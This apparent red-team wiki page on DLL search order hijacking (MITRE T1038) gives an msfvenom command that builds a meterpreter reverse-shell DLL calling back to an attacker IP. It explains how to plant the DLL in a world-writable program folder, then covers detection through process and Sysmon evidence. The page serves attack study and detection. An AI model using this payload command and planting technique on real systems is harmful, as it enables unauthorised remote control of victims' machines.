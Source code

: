 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded \(note the NAME NOT FOUND\) as it does not exist in the given path:

![](../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll` 

![](../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../.gitbook/assets/dll-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

  


